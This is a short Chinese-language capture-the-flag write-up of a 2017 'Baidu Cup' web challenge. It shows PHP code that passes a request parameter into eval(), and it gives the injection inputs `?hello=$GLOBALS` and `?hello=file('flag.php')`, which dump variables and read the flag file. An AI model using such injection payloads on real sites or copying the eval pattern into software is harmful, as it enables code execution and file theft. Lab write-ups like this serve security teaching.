


# 题目名称

## 题目描述
---
```
flag不在变量中。
```

## 题目来源
---
“百度杯”CTF比赛 2017 二月场

## 主要知识点
---


## 题目分值
---
10

## 部署方式
---


## 解题思路
---
打开页面后得到源码

```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);
?>
```

可以看到打印内容，使用`?hello=$GLOBALS`可以打印所有的变量内容。



> 'GLOBALS', '_FILES', '_COOKIE', '_POST', '_GET'

发现不存在flag，flag肯定在flag.php文件中，使用`?hello=file('flag.php')`来读取一下。



## 参考
---
